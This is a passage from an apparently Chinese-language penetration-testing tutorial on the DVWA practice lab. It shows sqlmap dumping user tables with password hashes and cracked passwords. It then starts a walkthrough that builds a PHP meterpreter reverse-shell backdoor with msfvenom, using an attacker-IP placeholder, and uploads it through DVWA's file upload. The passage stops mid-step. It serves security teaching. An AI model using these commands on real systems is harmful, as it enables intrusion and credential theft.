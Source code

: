 在这个命令中，我们使用`--dump`选项来查看`dvwa`数据库中所有表的所有条目。当命令运行时，`sqlmap`将询问是否应该使用字典攻击来尝试破解密码。选择`yes`选项，`sqlmap`将提示输入字典文件。对于这个演示来说，使用内置的字典文件就足够了。注意输出；您将看到我们已经转储的用户表，以及其中所有的详细信息，包括每个用户的密码的哈希形式和明文形式：

![](img/23b1e9dd-7073-456b-9b67-3a5873a460ad.png)

图 11：使用 Sqlmap 转储的用户详细信息

在本节中，我们已经看到了 Sqlmap 的有效性。使用这个工具可以在渗透测试中有时间限制时自动化一些攻击。我们特别看了如何进行信息收集，枚举表格和提取用户凭据。Sqlmap 还有很多其他功能，所以它是您渗透测试工具包中必不可少的工具。

# 使用 PHP 创建后门

让我们看看如何使用恶意的`php`文件来创建一个对 web 应用程序的基础操作系统的后门。在这里，我们将使用 DVWA，因为它允许我们上传文件。

确保 DVWA 的安全级别设置为低。默认的用户名是`admin`，密码是`password`。

我们将使用 MSFvenom 创建一个 PHP 文件，该文件将为我们提供一个反向 shell。用于监听连接的处理程序将在 Metasploit 中设置。步骤如下所示：

1.  在 Kali Linux 的终端窗口中，输入以下命令创建一个恶意的 PHP 后门：

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP Address> LPORT=<Port to connect to> -f raw > msfv-shell.php
```

在这个命令中，我们将 payload（`-p`）定义为`php/meterpreter_reverse_tcp`，然后我们定义攻击机器的 IP 地址（`LHOST`）和反向 shell 将建立的端口（`LPORT`）。我们不使用任何编码器；我们只想要原始的`php`文件（`-f raw`）。文件名应该是`msfv-shell.php`（`> msfv-shell.php`）。

1.  生成 PHP 文件后，我们将把它上传到 DVWA。登录到 DVWA，然后导航到左侧的上传部分。点击浏览...，然后导航到创建`msfv-shell.php`文件的位置。然后，选择它。文件上传后，注意上传的位置：

